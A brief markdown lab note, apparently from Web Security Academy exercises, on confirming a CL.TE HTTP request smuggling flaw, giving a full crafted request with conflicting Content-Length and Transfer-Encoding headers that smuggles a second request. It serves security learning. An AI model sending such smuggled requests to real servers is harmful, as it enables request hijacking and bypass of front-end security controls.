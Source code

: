 # Some cases of HTTP request smuggling

## 1. HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

Using Burp Repeater, issue the following request twice:

```POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X```

The second request should receive an HTTP 404 response.
